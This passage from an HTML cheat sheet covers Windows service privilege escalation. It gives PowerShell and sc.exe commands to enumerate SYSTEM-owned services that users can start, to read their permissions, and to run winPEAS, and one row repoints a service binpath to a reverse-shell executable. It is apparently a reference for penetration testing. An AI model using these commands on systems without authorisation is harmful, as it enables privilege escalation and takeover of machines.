                         <td>$services | where { ($_.ObjectName -match 'LocalSystem') -and ($_.Start -match '3') }</td>
                    </tr>
                    <tr>
                        <td>Get list of services with only name, no details</td>
                        <td>$names = $services.pschildname</td>
                    </tr>
                    <tr>
                        <td>List all services owened by SYSTEM, start type manual, and we have permission to start</td>
                        <td>$canStart = Foreach ($service in $names) { $sddl = (cmd /c sc sdshow $service); if ($sddl -match "RP[A-Z]*?;;;AU") { $service }}</td>
                    </tr>
                </table>
            </td>
        </tr>
        <tr>
            <td>List permissions for a service</td>
            <td>
                <li>sc.exe sdshow &lt;service&gt;</li>
                <li>ConvertFrom-SDDLString -Sddl &quot;&lt;output from sc.exe sdshow &lt;service&gt;&gt;&quot; | ForEach-Object {$_.DiscretionaryAcl}</li>
                <li>How to read the permissions: https://dimitri.janczak.net/2018/06/01/start-stop-service-rights-to-non-administrators/</li>
            </td>
        </tr>
    </table>
    <li>Tools</li>
    <ul>
        <li>winPEAS</li>
        <table>
            <tr>
                <td>Check for service vulnerabilities</td>
                <td>winPEASany.exe quiet servicesinfo</td>
            </tr>
        </table>
        <li>sc.exe</li>
        <table>
            <tr>
                <td>Start/Stop a service</td>
                <td>sc.exe start/stop &lt;service name&gt;</td>
            </tr>
            <tr>
                <td>Query the configuration of a service</td>
                <td>sc.exe qc &lt;name&gt;</td>
            </tr>
            <tr>
                <td>Query the current status of a service</td>
                <td>sc.exe query &lt;name&gt;</td>
            </tr>
            <tr>
                <td>Modify a configuration option of a service</td>
                <td>sc.exe config &lt;name&gt; &lt;option&gt;= &lt;value&gt;</td>
            </tr>
            <tr>
                <td>Change service start type</td>
                <td>sc config &lt;Service Name&gt; start= auto</td>
            </tr>
            <tr>
                <td>Change binary path</td>
                <td>sc config &lt;name&gt; binpath= "\"C:\path\to\reverse_shell\""</td>
            </tr>
        </table>
        <li>accesschk.exe</li>
        <table>
            <tr>